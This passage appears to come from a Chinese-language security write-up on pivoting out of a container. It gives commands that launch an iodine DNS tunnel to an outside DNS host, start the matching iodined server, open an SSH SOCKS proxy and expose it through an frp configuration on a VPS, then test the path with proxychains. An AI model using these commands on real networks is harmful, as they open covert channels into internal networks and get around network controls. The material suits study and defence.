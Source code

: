 ```plain
chmod 777  /tmp/iodine
nohup sleep 20 && /tmp/iodine -f -P datou ns1.cqupt.team &
```

然后停止运行 dockers

```plain
docker stop id
```

起服务端创建一个 192.168.0.1 网段的虚拟网卡

```plain
iodined -f -c -P datou 192.168.0.1 ns1.cqupt.team -DD
```

然后用 ssh 创建 socks 代理

```plain
ssh -N -D 29999 root@192.168.0.2
```

frpc.ini

```plain
[common]
server_addr = vpsip
server_port = 7000

[yj]
type = tcp
local_ip = 127.0.0.1
local_port = 29999
remote_port = 39999
```

这里其实就我们让本地监听了 29999 端口，然后修改完了 frpc.ini frpc 和 frps 全在 vps 上运行，这样 frp 就会把 29999 端口映射掉 39999 端口上，也就是相当于在一个 39999 端口建立和内网的代理

[![](assets/1708919820-75b7b4490ba7af711ec767c95b8c7f06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024900-b7654eba-cb69-1.png)

连接成功拿 proxychains test 一下
